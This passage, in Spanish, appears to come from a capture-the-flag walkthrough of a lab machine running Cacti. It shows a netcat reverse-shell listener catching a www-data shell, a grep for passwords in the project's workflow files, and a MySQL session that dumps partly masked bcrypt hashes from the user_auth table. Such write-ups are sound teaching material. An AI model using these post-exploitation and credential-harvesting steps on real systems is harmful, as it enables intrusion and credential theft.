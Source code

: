 Y conseguimos acceso a la máquina:
```
nc -nvlp 443 
listening on [any] 443 ... 
connect to [10.10.******] from (UNKNOWN) [10.10.11.30] 46536 
/bin/sh: 0: can't access tty; job control turned off 
$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
$ 
```

Encontramos que existe un usuario llamado *Marcus*, pero no tenemos permisos para acceder a sus ficheros, así que buscamos credenciales en los ficheros de *Cacti*
```
www-data@monitorsthree:~/html/cacti/.github$ grep -ri password 
workflows/syntax.yml:          MYSQL_PASSWORD: ********** 
workflows/syntax.yml:          MYSQL_ROOT_PASSWORD: ************* 
workflows/syntax.yml:        echo -e "[client]\nuser = root\npassword = **********\nhost = 127.0.0.1\n" >> ~/.my.cnf 
workflows/syntax.yml:        echo -e "[client]\nuser = root\npassword = **********\nhost = 127.0.0.1\n" > ${{ github.workspace }}/.my.cnf 
```

Logramos enumerar las credenciales de *Marcus* en la base de datos de *Cacti*:
```
www-data@monitorsthree:~/html/cacti/.github$ mysql -u ******** -p 
Enter password:  
Welcome to the MariaDB monitor.  Commands end with ; or \g. 
Your MariaDB connection id is 7045 
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04 

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others. 

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 

MariaDB [(none)]> show database; 
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'database' at line 1 
MariaDB [(none)]> show databases; 
+--------------------+ 
| Database           | 
+--------------------+ 
| cacti              | 
| information_schema | 
| mysql              | 
+--------------------+ 
3 rows in set (0.001 sec) 
  
MariaDB [(none)]>  
 
Enumeramos las credenciales de marcus en cactis 
 
MariaDB [cacti]> select username,password,full_name,password_history from user_auth; 
+----------+--------------------------------------------------------------+---------------+------------------+ 
| username | password                                                     | full_name     | password_history | 
+----------+--------------------------------------------------------------+---------------+------------------+ 
| admin    | $2y$10$****************************3mDuyG90G                 | Administrator | -1               | 
| guest    | $2y$10$****************************ATo77nLHu                 | Guest Account | -1               | 
| marcus   | $2y$10$****************************xo79IBjtK                 | Marcus        |                  | 
```